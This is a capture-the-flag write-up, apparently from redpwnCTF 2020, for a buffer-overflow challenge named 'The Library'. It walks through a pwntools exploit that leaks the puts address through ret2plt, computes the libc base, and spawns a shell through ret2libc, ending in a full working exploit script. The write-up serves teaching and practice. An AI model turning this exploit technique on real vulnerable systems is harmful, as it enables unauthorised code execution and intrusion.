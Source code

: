 # The Library
## Analysis
NX and ASLR are enabled, but there's no PIE so we can use a ret2plt to leak libc base and then execute a ret2libc attack to gain a shell.

## The Script
### Setup
```python
from pwn import *

elf = ELF('./the-library', checksec=False)
libc = ELF('./libc-remote.so', checksec=False)

p = remote('2020.redpwnc.tf', 31350)
```

### ret2plt
```python
# ret2plt to leak puts
payload = b'A' * 24
payload += POP_RDI
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols['main'])

print(p.clean(0.2))

p.send(payload)
```

A **ret2plt** uses `puts@plt` to prints the value stored in the GOT entry of `puts`. We also set the return address to the location of `main` so we can have two inputs. Now we just need to parse he response to get us the location of `puts` in `libc`.

```python
p.recvline()
p.recvline()

puts = p.recv(6).ljust(8, b'\x00')              # Padding it to 8 bytes for u64()
puts = u64(puts)
log.success(f"puts: {hex(puts)}")

libc.address = puts - libc.symbols['puts']
log.success(f'Libc Base: {hex(libc.address)}')

p.clean(0.2)
```

### ret2libc
Now we just need to execute the final **ret2libc**, which uses the string `/bin/sh` in `libc` and passes this is a parameter to `system` in order to spawn a shell.

```python
# Final ret2libc
bin_sh = next(libc.search(b'/bin/sh\x00', writable=False))
system = libc.symbols['system']

payload = b'A' * 24
payload += POP_RDI
payload += p64(bin_sh)
payload += p64(system)
payload += p64(0x0)

p.sendline(payload)

p.interactive()
```

Unfortunately this doesn't work first try, due to stack alignment, so we just need to add in an extra `ret` instruction to align the payload.

## Final Exploit
```python
from pwn import *

elf = ELF('./the-library', checksec=False)
libc = ELF('./libc-remote.so', checksec=False)

p = remote('2020.redpwnc.tf', 31350)

POP_RDI = p64(0x400733) 
RET = p64(0x400506)


# ret2plt to leak puts
payload = b'A' * 24
payload += POP_RDI
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols['main'])

print(p.clean(0.2))

p.send(payload)

p.recvline()
p.recvline()

puts = p.recv(6).ljust(8, b'\x00')              # Padding it to 8 bytes for u64()
puts = u64(puts)
log.success(f"puts: {hex(puts)}")

libc.address = puts - libc.symbols['puts']
log.success(f'Libc Base: {hex(libc.address)}')

p.clean(0.2)

# Final ret2libc
bin_sh = next(libc.search(b'/bin/sh\x00', writable=False))
system = libc.symbols['system']

payload = b'A' * 24
payload += RET          # Stack Alignment
payload += POP_RDI
payload += p64(bin_sh)
payload += p64(system)
payload += p64(0x0)

p.sendline(payload)

p.interactive()
```